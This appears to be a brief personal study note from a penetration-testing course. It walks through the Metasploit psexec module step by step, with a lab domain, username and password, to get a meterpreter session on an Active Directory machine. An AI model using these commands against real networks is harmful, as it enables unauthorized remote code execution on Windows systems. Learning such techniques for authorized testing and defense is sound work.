



PsExec
=> If we are able to connect to a shared folder (as in administrator or with execute privileges)- : we can upload malware and gain a reverse shell
Metasploit- > use exploit/windows/smb/psexec
- 
> set rhosts 192.168.1.69- > set smbdomain marvel
- > set smbuser fcastle
- > set smbpass Password1
- 
- > show targets

- => Try targets
- > set target 2
- > run
- 
- => meterpreter session in AD